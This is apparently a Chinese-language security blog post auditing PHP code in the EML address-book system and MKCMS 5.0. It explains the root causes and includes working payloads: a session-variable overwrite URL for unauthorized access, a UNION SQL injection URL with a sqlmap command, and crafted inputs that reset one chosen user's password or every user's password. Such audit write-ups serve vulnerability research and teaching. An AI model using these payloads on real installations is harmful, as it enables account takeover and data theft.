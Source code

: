 ```yaml
---
layout:     post
title:      代码审计之 EML + MKCMS
subtitle:   也没啥营养
date:       2021-02-22
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/181311-1607335991eaa0.jpg
catalog: true
tags:
    - PHP
    - 代码审计
---
```


## EML  企业通讯录管理系统


### 未授权访问漏洞 <= 5.4.14 

漏洞产生位置`lib/func.class.php` ，在代码的安全过滤部分，

原本为安全考虑的代码 却产生了安全问题，

`${$_k}= _RunMagicQuotes($_v)` 存在变量覆盖

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210222203804917.png)



所有用户操作都有权限检测

![image-20210222204937126](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210222204937126.png)

具体实现如下

![image-20210222204730628](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210222204730628.png)


用户权限检测 就依靠这三个变量

```php
$uid=$_SESSION['uid'];
$roleid=$_SESSION['roleid'];
empty($_SESSION['isLogin'])
```





但因为存在变量覆盖，因此也可以覆盖session

因此构造如下即可未授权访问（仅登陆的话就构造如下即可，更高权限可以改另外两个变量）

Get post  cookie方法都可以进行覆盖

```
http://ip/index.php?action=user&do=&_SESSION[isLogin]=1
```

![image-20210222205434602](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210222205434602.png)



### 未授权访问 + sql注入 <= 5.4.14



配合未授权访问 以及变量覆盖

在用户列表功能里，有个`search` 变量，没有存在直接赋值的情况

![image-20210222205646125](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210222205646125.png)



因此在这里search 变量存在覆盖情况

权限检测也都可以绕过

`$do` 变量用户可控 ，因此构造如下（不能有单双引号等特殊字符，因为最开始进行了安全过滤

```
index.php?action=user&do=&_SESSION[isLogin]=1&search=union/**/select/**/1,version(),3,user(),5,6,7,8,9,10,11,12,13,14,15%23
```



![img](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/wpsphy0g9.jpg)



也可sqlmap 一把梭

```
python3 .\sqlmap.py -u "http://192.168.242.134//index.php?action=user&do=&_SESSION[isLogin]=1&search=" -p "search" --dbs
```



## MKCMS 任意密码重置

MKCMS5.0 (就看了这一个)

这个玩意 漏洞一堆， 没任何过滤的注入就6处（这种没营养的就不分析了



在/ucenter/repass.php中 重置密码部分

name 、email没有过滤（存在注入，注入就不说了）

![img](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/wpslsRflV.jpg)



要想实现 密码重置 就需要满足两个条件 `第一条语句成立`，`第二条要输入正确用户`

这个东西就蠢在`name` 一条是用单引号包裹，另一个是双引号包裹

```php
<?php
     $username = stripslashes(trim($_POST['name']));
     $email = trim($_POST['email']);
     // 检测用户名是否存在
		 $query = mysql_query("select u_id from mkcms_user where u_name='$username' and    u_email='$email'");
     if(!! $row = mysql_fetch_array($query)){
         $_data['u_password'] = md5(123456);
         $sql = 'update mkcms_user set '.arrtoupdate($_data).' where u_name="'.$username.'"';

     if (mysql_query($sql)) {
        //修改成功就发送修改成功提醒
      }
    }
?>
```



从两行代码中看出，11行检测用户是否存在时sql语句中对变量用单引号包裹，而在修改密码时则利用的双引号进行包裹，单引号只能逃逸第一个语句而不能逃逸第二个语句，同样双引号之能逃逸第二个不能逃逸第一个。因此需要构造一个同时绕过这两个的sql语句。



令`name= ' or "|| u_name = 'test' #"||u_name = "test" #`

语句就会变成如下

```sql
select u_id from mkcms_user where u_name='' or "|| u_name = 'test' #"||u_name = "test" #' and  u_email='$email'；
```

```sql
update mkcms_user set '.arrtoupdate($_data).' where u_name="' or "|| u_name = 'test' #"||u_name = "test" #"';
```

这样构造以后两个语句可以正常运行，能达到指定修改的目的



攻击步骤

如下注册 一个test 用户 密码为 abcd 

![img](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/wpsp6s1NO.jpg)

然后攻击者已知用户名的前提下及进行攻击，如下然后密码找回 （邮箱没啥卵用 就是告诉你密码重置了）



![img](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/wpsLVCKAn.jpg)

![img](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/wpsAPKQWv.jpg)



邮箱错误的情况，根据后台代码是仍可以修改密码的只是在发送邮箱时错误，也就是说逻辑设计的不合理



![image-20210222212543948](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210222212543948.png)



然后密码就被重置了



**重置所有人密码**

`name=' or "|| 1=1 #"||1=1 #`

将上面语句改为永真语句，即可重置所有人密码，效果如下，重置前和重置后分别如下，可见危害之大 

![image-20210222212649146](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210222212649146.png)